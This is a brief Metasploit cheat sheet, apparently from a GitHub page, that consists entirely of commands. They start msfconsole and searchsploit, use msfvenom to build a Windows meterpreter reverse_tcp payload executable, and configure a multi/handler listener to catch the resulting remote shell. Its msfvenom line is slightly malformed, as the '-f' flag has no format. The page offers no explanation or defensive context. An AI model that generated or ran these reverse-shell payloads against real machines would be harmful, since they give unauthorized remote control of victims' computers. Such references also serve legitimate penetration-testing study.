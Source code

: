 # Metasploit

```text
sudo msfdb init && msfconsole

show exploits
searchsploit
```

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your IP] -f -o outputfile.exe
```

```text
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
show option
set LHOST [your IP]
exploit -j -z
```

```text
meterpreter
help
```

